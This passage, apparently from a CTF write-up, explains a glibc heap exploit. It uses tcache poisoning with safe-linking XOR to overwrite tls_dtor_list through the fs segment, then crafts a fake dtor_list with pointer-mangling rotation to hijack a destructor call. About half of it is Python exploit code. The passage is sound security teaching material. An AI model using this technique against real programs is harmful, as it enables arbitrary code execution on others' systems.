 We can see it also use the `fs` segment. Checking the offset which is move to rbx to see what its value:

![check-offset.png](images/check-offset.png)

So offset is `-88` or `-0x58` in hex format, but due to tcache alignment, we will make the offset to `-0x60`. Let's attack tcache to change the `tls_dtor_list` first:

```python
alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
    )
update(2, 0x18, payload)
alloc(0x18, b'flag\0\0\0\0')
alloc(0x18, b'6'*8 + p64(0xdeadbeefdeadbeef))
```

Because we don't know what address to write so I put `0xdeadbeefdeadbeef` to the `tls_dtor_list` first. Now we need to build a structure `dtor_list` in a chunk and change `0xdeadbeefdeadbeef` to address of that chunk. The structure for `dtor_list` is as follows:

```c
struct dtor_list
{
    dtor_func func;
    void *obj;
    struct link_map *map;
    struct dtor_list *next;
};
```

The function will demangle the variable `func` first and then call the result of it. Let's craft 1 `dtor_list` before we overwrite the `tls_dtor_list` of the code above:

```python
def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

payload = flat(
    # dtor_list 1
    left_rotate(0xcafebabe, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)
```

The heap address for that first `dtor_list` is at heap base add `0x7e0`:

![get-address-of-first-dtor-list.png](images/get-address-of-first-dtor-list.png)
